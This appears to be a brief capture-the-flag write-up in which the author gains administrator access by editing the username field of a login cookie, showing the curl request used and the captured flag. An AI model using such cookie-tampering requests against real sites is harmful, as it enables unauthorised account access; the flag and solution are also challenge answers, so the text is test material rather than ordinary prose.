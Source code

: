 Go to the site and log in; you'll get a cookie set such as:

    username=guest&date=2017-01-28T17:12:33-0800&secret_length=8&

All you have to do is change the username:

curl 'http://x.x.x.x/index.php' -H 'Cookie: auth=username%3Dadministrator%26date%3D2017-02-02T03%3A41%3A45%2B0000%26'

Flag is HTU{0076ecde2daae415d7e5ccc7db909e7e}
